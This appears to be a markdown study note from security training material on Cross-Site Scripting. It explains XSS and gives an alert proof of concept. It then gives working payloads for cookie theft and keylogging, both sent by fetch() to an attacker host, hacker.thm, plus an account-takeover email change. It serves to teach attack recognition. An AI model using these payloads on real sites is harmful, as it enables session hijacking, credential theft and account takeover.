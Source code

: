 ## Cross-Site Scripting (XSS)

Cross-Site Scripting (XSS) is a type of injection attack where malicious JavaScript is injected into a web application with the intention of being executed in the browsers of other users. This can lead to a wide variety of attacks ranging from session hijacking to manipulation of web content and keylogging.

---

## XSS Payloads

An XSS payload is the JavaScript code that an attacker wants to execute in a victim's browser. Payloads typically have two core components:

- **Intention**: The desired outcome or effect of the JavaScript (e.g., stealing cookies, logging keys, etc.).
- **Modification**: The adaptations or encoding needed to successfully deliver and execute the payload in a specific context or environment.

---

## Testing for XSS Vulnerabilities

A basic test for XSS is to check if arbitrary JavaScript can be injected and executed on a web page. A common proof-of-concept payload is:

```html
<script>alert('1');</script>
```

If this script executes and displays a browser alert, the site is vulnerable to XSS.

---

## Common Malicious XSS Payloads

### 1. Session Stealing

Web sessions often store authentication tokens in cookies. A malicious actor can exfiltrate cookies using the following payload:

```html
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

- `document.cookie` retrieves the current cookies.
- `btoa()` base64-encodes the cookie for safe transmission.
- The data is then sent via `fetch()` to an attacker-controlled endpoint.

### 2. Keylogger

Keyloggers can be implemented via XSS to capture everything a user types:

```html
<script>
document.onkeypress = function(e) {
    fetch('https://hacker.thm/log?key=' + btoa(e.key));
}
</script>
```

Every keystroke is base64-encoded and sent to a remote server controlled by the attacker. This is particularly dangerous on login or payment pages.

### 3. Business Logic Abuse

In some applications, exposed JavaScript functions may provide sensitive functionality. If not secured, these functions can be called maliciously:

```html
<script>user.changeEmail('attacker@hacker.thm');</script>
```

This payload demonstrates changing a user's email address, potentially enabling the attacker to later perform a password reset attack.

---

